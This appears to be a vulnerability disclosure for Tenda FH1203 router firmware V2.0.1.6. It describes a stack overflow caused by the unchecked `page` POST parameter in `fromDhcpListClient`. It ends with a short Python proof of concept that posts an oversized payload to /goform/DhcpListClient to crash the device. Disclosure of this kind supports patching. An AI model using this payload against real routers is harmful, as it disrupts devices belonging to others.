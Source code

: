## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

The Tenda FH1203 V2.0.1.6 firmware has a stack overflow vulnerability in the `fromDhcpListClient` function. The `v4` variable receives the `page` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v4` can trigger this security vulnerability.

![image-20240320012345206](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012345206.png)

![image-20240320012325044](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012325044.png)

![image-20240320012335792](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012335792.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320012419263](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012419263.png)
